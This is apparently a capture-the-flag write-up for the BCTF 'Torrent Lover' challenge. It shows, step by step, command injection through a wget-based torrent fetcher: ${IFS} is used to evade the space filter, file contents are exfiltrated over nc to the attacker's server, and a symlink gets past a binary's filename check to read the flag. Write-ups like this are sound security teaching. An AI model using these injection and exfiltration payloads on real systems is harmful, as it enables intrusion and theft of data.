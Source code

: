 Torrent Lover
-------------

In this problem, we were given a website with a form and the instructions: "input something(torrent)'s URL u wanna know here". If you entered a link with a torrent file, the website would direct you to a page where you could view metadata about the torrent. The server performed some kind of validation on the url you gave it. Entering a url with a space, or a url that didn't end in ".torrent" would give you an error message.

### Unsafe wget

First, I submitted a url that pointed to a torrentfile on a server I controlled. Looking at the user-agent in the request made, it was clear that the server was using the `wget` command to fetch my torrent file. If the server was in fact using wget to fetch the urls we provided, we could likely get it to execute arbitary commands. As a simple POC, I gave it this url:
```
http://<myserver>/`uname`.torrent
```
This caused the server to make a request to my server for `/Linux.torrent`.

We could also get the server to run other arbitrary commands by append a semicolon, followed by the command we wanted to run.

### Shellcode without spaces

The validation on the server caused our requests to fail if the url we supplied contained a space. No worries though, we can simply use the internal file separator to get around this restriction.

Giving it the url
```
http://<myserver>/somefile;echo${IFS}test|nc${IFS}<myserver>${IFS}9999;.torrent
```

And listening on my server:
```
nc -l 9999
```

Caused the game server to send me the word "test". This means we can run arbitrary commands on the server, and see the output.

### Find the flag

First things first, I used the `find` command to look for the flag on the server
```
http://<myserver>/somefile;find${IFS}/${IFS}-name${IFS}*flag*|nc${IFS}<myserver>${IFS}9999;.torrent
```

This revealed that there were `flag` and `use_me_to_read_flag` files in /var/ww/html/flag

Running the binary by submitting this url
```
http://<myserver>;/var/www/flag/use_me_to_read_flag${IFS}/var/www/flag/flag|nc${IFS}<myserver>${IFS}9999;.torrent
```
I see a message that says: `You do not have permission to access /var/www/flag/flag` Using `ls -al` to inspect the permissions, it appears that
the binary does have the proper permissions to read the flag. We probably want to grab the binary and inspect it locally.

### A small bit of reverse engineering
Command to grab the binary:

```
http://<myserver>/;cat${IFS}/var/www/flag/use_me_to_read_flag|nc${IFS}<myserver>${IFS}9999;.torrent
```

And on my server:
```
nc -l 9999 > out.bin
```

Binary get!

Using `file`, I determine that it is an ELF. I run `ltrace` on it:

```
echo "test" > flag
ltrace out.bin flag
```

From the output, I can see that the binary does a `strstr` to see if the argument I provided contains the substring 'flag'.

So we can't directly read the flag, but that's no big deal. We can just make a symlink to the flag.

```
ln -s flag different_name
./out.bin different_name
```
It works! Now let's do that on the server. I submit the following two urls:

```
http://<myserver>/;/ln${IFS}-s${IFS}/var/www/flag/flag${IFS}/tmp/asdf;.torrent
```
and
```
http://<myserver>/;/var/www/flag/use_me_to_read_flag${IFS}/tmp/asdf|nc${IFS}<myserver>${IFS}9999;.torrent
```

And the server spits out the flag:
```
BCTF{Do_not_play_dota2_or_you_will_be_stupid_like_me233}
```


